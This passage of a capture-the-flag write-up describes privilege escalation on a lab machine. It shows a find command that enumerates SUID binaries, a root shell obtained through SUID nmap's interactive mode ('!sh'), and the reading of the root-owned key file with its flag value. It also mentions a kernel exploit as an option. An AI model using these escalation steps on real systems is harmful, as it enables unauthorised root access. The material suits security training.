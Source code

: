 ### Flag 3 

Our last flag is probably some privilege escalation. We can try to find exploits through `uname -a` (e.g. dirty cow works) or try to run a file containing an SUID bit with root permissions, then spawn a shell from that.

```
robot@linux:~$ find / -perm +6000 -type f -exec ls -ld {} \; 2>&1 | grep -v "Permission denied"
< +6000 -type f -exec ls -ld {} \; 2>&1 | grep -v "Permission denied"        
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-touchlock
-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
-rwxr-sr-x 1 root utmp 421768 Nov  7  2013 /usr/bin/screen
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-unlock
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-lock
-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
-rwxr-sr-x 1 root crontab 35984 Feb  9  2013 /usr/bin/crontab
-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
-rwxr-sr-x 1 root shadow 54968 Feb 17  2014 /usr/bin/chage
-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
-rwxr-sr-x 1 root shadow 23360 Feb 17  2014 /usr/bin/expiry
-rwxr-sr-x 1 root mail 14856 Dec  7  2013 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
-rwxr-sr-x 1 root ssh 284784 May 12  2014 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 19024 Feb 12  2015 /usr/bin/wall
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap      <------------ nmap? looks interesting
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
-rwxr-sr-x 1 root shadow 35536 Jan 31  2014 /sbin/unix_chkpwd
find: `/proc/2950/task/2950/fd/8': No such file or directory
find: `/proc/2950/task/2950/fdinfo/8': No such file or directory
find: `/proc/2950/fd/8': No such file or directory
find: `/proc/2950/fdinfo/8': No such file or directory

robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !sh
!sh
# whoami
whoami
root
# ls /root    
ls /root
firstboot_done	key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
